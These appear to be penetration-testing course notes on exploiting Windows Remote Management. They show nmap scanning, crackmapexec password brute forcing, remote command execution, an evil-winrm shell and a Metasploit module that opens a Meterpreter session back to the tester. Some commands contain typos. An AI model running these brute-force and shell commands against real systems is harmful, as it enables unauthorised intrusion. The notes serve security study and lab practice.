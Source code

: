 ```yaml
---
description: 5985, 5986
---
```


# 4 - Exploiting WinRM

## **Exploiting WinRM**

* Windows Remote Management (WinRM) is a Windows remote management protocol that can be used to facilitate remote access with Windows systems over HTTP(S).
* Microsoft implemented WinRM in to Windows in order to make life easier for system administrators.
* WinRM is typically used in the following ways:
  * Remotely access and interact with Windows hosts on a local network.
  * Remotely access and execute commands on Windows systems.
  * Manage and configure Windows systems remotely.
* WinRM typically uses TCP port 5985 and 5986 (HTTPS).
* WinRM implements access control and security for communication between systems through various forms of authentication.
* We can utilize a utility called **“crackmapexec”** to perform a brute-force on WinRM in order to identify users and their passwords as well as execute commands on the target system.
* We can also utilize a ruby script called **“evil-winrm”** to obtain a command shell session on the target system.

### Practical Demonstration

`nmap -sV -p 5985 $ip` - scan.

`crackmapexe winrm $ip -u administrator -p /usr/share/metasploit-framework/wordlists/unix_password.txt` - Perform a brute force attack against WinRM.

#### other tools that can perform WinRM bruteforce

* Medusa
* Metasploit

We can now use \[crackmapexec] to execute arbirtary code on the victim system.

`crackmapexec winrm $ip -u administrator -p <password> -x "whoami"` - run a command with legitimate credentials. other cmds like "systeminfo".

or

`crackmapexec winrm 10.4.19.168 -u administrator -p vagrant -x 'powershell.exe -Command whoami /priv'` - spawning powershell and executing the "/priv" cmd.

We can use the \[evil-winrm.rb] script to gain a cmd shell.

`evil-winrm.rb -u administrator -p 'tinkerbell' -i $ip` - Obtain a shell with legitimate credentials.

We can obtain a Meterpreter Session using Metasploit

```
# 
search winrm_script
use exploit/windows/winrm/winrm_script_exec
set RHOSTS $ip
set LHOST and LPORT
set FORCE_VBS true
set USERNAME adminsitrator
set PASSWORD tinkerbell
exploit
# we get a meterpreter session
getuid
sysinfo
```



